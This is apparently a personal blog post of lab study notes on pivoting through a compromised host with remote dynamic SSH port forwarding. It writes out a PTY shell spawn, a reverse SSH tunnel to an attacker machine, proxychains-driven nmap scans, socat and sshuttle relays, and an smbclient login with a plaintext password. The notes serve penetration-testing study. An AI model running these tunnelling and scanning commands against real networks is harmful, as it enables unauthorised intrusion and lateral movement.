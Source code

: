 ```yaml
---
layout: post
title: Remote Dynamic Port Forwarding
titledate: 09/23/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "socat", "sshuttle"]
---
```


remote dynamic port forwarding works similar to local in that we want to forward traffic to multiple clients from one session and we can do this in a remote port forwarding instance in which we can setup the session from the target1

if we have a target1 that allows outbound ssh but not inbound we can perform RDPF

again we setup the tty shell session with python pty

    $ python3 -c 'import pty; pty.spawn("/bin/bash")'

next we create the ssh session from target1 to the port we want to access

    $ ssh -N -R 9998 kali@192.168.118.4

here we specify no shell and -R for remote forwarding to our attacking machine and the listening port on the attacking machine

we can check this port is bound and listening on our local interface

    $ sudo ss -ntplu

now like in the previous dynamic port forwarding example we can use proxychains to to send traffic over the socks proxy 

    $ tail /etc/proxychains4.conf

    - socks5 127.0.0.1 9998 (or port we are trying to access)

and to illustrate the example we us proxychains to run nmap against one of the servers

    $ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.1.1

if we have root privs and python3 installed sshuttle may be a viable option

    target1: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

here we setup socat listening on 2222 forwarding ssh to the psql db target

    $ sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

and then in our attacking machine we specify the psql db connection as well as the subnets we want to tunnel 

now this will behave like a vpn environment - any connection we make to hosts on the subnet should have seemingly direct access

    $ smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
